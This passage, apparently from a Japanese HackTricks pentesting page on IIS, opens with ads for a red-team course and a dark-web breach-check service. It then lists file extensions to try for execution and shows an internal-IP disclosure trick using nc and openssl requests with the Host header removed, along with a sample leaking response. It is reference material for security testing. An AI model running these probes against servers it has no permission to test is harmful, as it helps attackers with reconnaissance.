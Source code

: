 # IIS - インターネット情報サービス

<details><summary><strong>**htARTE（HackTricks AWS Red Team Expert）**</strong>を使って、**ゼロからヒーローまでのAWSハッキング**を学びましょう！</summary></details>

## WhiteIntel

<figure><img src=".gitbook/assets/image (1224).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io)は、**ダークウェブ**を活用した検索エンジンで、**企業やその顧客が** **スティーラーマルウェア**によって**侵害**されていないかをチェックする**無料**機能を提供しています。

WhiteIntelの主な目標は、情報窃取マルウェアによるアカウント乗っ取りやランサムウェア攻撃と戦うことです。

彼らのウェブサイトをチェックし、**無料**でエンジンを試すことができます：

{% embed url="https://whiteintel.io" %}

---

テスト実行可能なファイル拡張子：

- asp
- aspx
- config
- php

## 内部IPアドレスの漏洩

302を受け取る任意のIISサーバーで、Hostヘッダーを削除してHTTP/1.0を使用し、レスポンス内のLocationヘッダーが内部IPアドレスを指す可能性があります：
```
nc -v domain.com 80
openssl s_client -connect domain.com:443
```
内部IPを開示する応答:
```
GET / HTTP/1.0

HTTP/1.1 302 Moved Temporarily
Cache-Control: no-cache
Pragma: no-cache
Location: https://192.168.5.237/owa/
Server: Microsoft-IIS/10.0
X-FEServer: NHEXCHANGE2016
```
## .configファイルの実行
